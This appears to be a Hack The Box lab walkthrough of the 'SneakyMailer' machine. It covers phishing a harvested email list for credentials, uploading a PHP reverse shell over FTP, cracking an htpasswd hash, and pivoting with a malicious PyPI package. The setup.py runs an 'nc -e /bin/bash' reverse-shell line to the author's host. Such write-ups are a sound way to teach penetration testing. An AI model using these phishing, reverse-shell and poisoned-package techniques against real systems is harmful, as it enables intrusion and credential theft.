HTB SneakyMailer

We start out with our usual nmap scan -

Initially we can see we have a couple web servers and an email server. I went to checkout the web server
on port 80 and discovered a list of emails.

I saved these emails into a list and then continued on enumerating. I ran gobuster to pull out any additional domains or
vhosts, and we find a couple standard directories as well as dev.sneakycorp.htb


Sadly dev.sneakycorp.htb appeared to have the same html as the normal domain. I checked out the app on port 8080 next.

Not much to see there so I moved onto the ftp server. FTP appeared to be a dead end since at this point as we don't have
any creds and there is no guest access. Judging by the name of the box and the fact that we have an email list, I started
thinking we have to phish a user.
I opted to use a tool called swaks - which you can checkout here
Our basic idea is just to get one of the users to click on our ip, and we should be able to see the connection
in netcat and judge where to go from there. I sent out an email to everyone on the list we found earlier, with the
simple contents of "Visit 8.8.8.8" where 8.8.8.8 would be my ip.

In our netcat window we see an http connection attempt with the users creds.

After urldecoding the above password, we get
Username: paulbyrd@sneakymailer.htb
Password: ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
With our new email creds, we should now be able to setup an email client and read through pauls emails.
I setup Evolution, which you can download with a simple
apt-get install evolution
After installing evolution and setting it up with pauls creds, we are able to see 2 emails in pauls sent folder.
The first is a set of credentials for the developer user

And the 2nd gives us a piece of information, telling us that all of the packages in pypi are ran and tested by
the low user. This may come in handy later if we need to pivot to the low user.

Our cred list is now -
(smtp)
Username: paulbyrd@sneakymailer.htb
Password: ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
(user acct)
Username: developer
Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
With developer creds, now we are able to log into the ftp server. There is a /dev/ directory which we have access to,
that looks like the same directory that is served on dev.sneakycorp.htb . So in theory we should be able to drop
a reverse shell in there, then trigger it on the webserver in order to send a reverse connection back to our machine.
I opted to use the php reverse shell from pentest monkey - which you can checkout here
After setting up my ip/port info, I uploaded to the ftp server -

And after visiting the page in our browser we receive a connection back to our netcat

We are dropped in a user shell as www-data. We can su over to the developer user as well, but we are still unable to
pull the user flag, as it is located in user low's directory. I started out by running the standard linenum script. It
pulls out some creds from an open .htpasswd file for pypi.sneakycorp.htb

Some further enumeration revealed this to be the port 8080 application that we were previously unable to see.

Remembering back to our 2nd email we discovered in pauls sent folder, every package in here is executed by the low user.
So our gameplan from here is to figure out how to upload a malaicious package that low will then execute for us.
First step is to crack the hash from .htpasswd. We can determine the generic hash type from hash-identifier

We can then find the actual hash type on the hashcat page which you can checkout here, and then attempt to crack it


Hashcat cracks it, and we can update our creds list
(smtp)
Username: paulbyrd@sneakymailer.htb
Password: ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
(user acct)
Username: developer
Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
(pypi creds)
username: pypi
password: soufianeelhaoui
With our newfound pypi creds in hand, we turn to the pypi documentation to figure out how to upload a package.
There are 2 files we need to setup.
example .pypirc from pypi docs

example setup.py from pypi docs

We can setup a pypirc with the connection info and creds we already have.

Inside of setup.py, we will run a simple netcat one liner to send a /bin/bash session back to our kali .
The command I will use is
nc -e /bin/bash (my-ip-goes-here) (my-port-goes-here)
So I created my setup.py like below

At this point uploading a pypi package with the above two files will result in catching yet another shell as the dev user.
The whole point of doing this was to pivot to the low user, and he should be executing these packages according to the email
we read earlier. So what is going on?
when we upload a package our setup.py code is actually ran twice. It is ran the first time by us executing the upload
on sneakymailer as the developer user. Then it is ran a 2nd time when the low user grabs and executes it. Our nc one liner is
getting executed by the dev user first, and then we arent able to see the connection attempt from low. We can do a simple os.getuid()
check in the setup.py script to see if we are executing as dev or low, if we match low's UID run nc, otherwise do nothing.
setup.py

I transferred setup.py and .pypirc over into the /tmp/ directory, and then added the /tmp/ directory into my path with
HOME=`pwd`
After starting up my netcat listener, I attempted to upload the package

We got a 200 status OK, and over in nc

We got user !!